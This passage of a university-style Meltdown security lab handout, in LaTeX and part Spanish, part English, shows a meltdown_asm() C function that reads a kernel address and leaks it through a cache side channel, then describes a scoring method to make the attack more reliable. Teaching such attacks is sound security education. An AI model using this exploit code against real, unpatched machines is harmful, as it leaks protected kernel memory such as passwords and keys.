 \begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}

Por favor llame a la función \texttt{meltdown\_asm()} en vez de la función original  \texttt{meltdown()}. Describa sus observaciones. Incremente o decremente el número de loops y reporte sus resultados.




\section{Tarea 8: Haciendo el Ataque más Práctico}

Even with the optimization in the previous task, we may still not be able 
get the secret data every time: sometimes, our attack produces the correct 
secret value, but sometimes, our attack fails to 
identify any value or identifies a wrong value. 
To improve the accuracy, we can use a statistical technique.
The idea is create a score array of size 256, one element for each possible 
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add 1 to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with 
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.




